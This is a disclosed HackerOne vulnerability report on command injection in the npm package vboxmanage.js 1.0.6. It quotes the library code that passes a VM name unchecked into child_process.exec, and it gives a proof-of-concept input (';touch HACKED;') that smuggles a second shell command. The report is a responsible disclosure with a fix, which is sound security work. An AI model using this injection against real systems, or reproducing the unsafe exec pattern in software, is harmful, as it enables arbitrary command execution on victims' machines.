 # [vboxmanage.js] Command Injection via insecure command concatenation

## Report Details
- **Report ID**: 864777
- **URL**: https://hackerone.com/reports/864777
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-02T14:21:33.264Z
- **Disclosed**: 2020-08-20T09:08:23.411Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `vboxmanage.js` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `vboxmanage.js`
**version:** `1.0.6`
**npm page:** `https://www.npmjs.com/package/vboxmanage.js`

## Module Description

A wrapper for VirtualBox CLI with Promises,

## Module Stats

[2] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

I tested the `start` function.
Here's the code which causes the issue:

```javascript
// https://github.com/danielgindi/node-vboxmanage/blob/master/index.js#L76
...
var
    child_process = require('child_process'),
...
VBoxManage.manage = function (command, options) {

    command = command || [];
    if (!(command instanceof Array)) {
        command = [command];
    }

    options = options || {};

    for (var i = 0; i < command.length; i++) {
        command[i] = escapeArg(command[i]);
    }

    Object.keys(options).forEach(function (option) {

        command.push('--' + option);
        var value = options[option];

        if (value !== true) {
            command.push(escapeArg(value));
        }

    });

    if (VBoxManage.debug) {
        console.warn("$ VBoxManage " + command.join(" "));
    }

    return new Promise(function (resolve, reject) {

        child_process.exec(vBoxManageBinary + ' ' + command.join(' '), {}, function (err, stdout, stderr) {  // <-- injection

            if (err) {
                err.stderr = stderr;
                return reject(err);
            }

            return resolve({ stdout: stdout, stderr: stderr });

        });

    });
};
...
VBoxManage.start = function (vmname, gui, options) {
    options = options || {};
    options['type'] = gui ? 'gui' : 'headless';
    return this.manage(['-nologo', 'startvm', vmname], options); // <-- user input
};
...
```
The `vmname` parameter is used to build the command that is passed to the `child_process.exec` function without any check.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `vboxmanage.js` module:
    -  `npm i vboxmanage.js`
- create the following PoC JavaScript file (`poc.js`):

```javascript
var VBox = require('vboxmanage.js');
VBox.start(';touch HACKED;').then(function () {}).catch(function (err) {});
```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F812305}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `vboxmanage.js` module via insecure command concatenation.

## Attachments
- poc_vboxmanage.mov
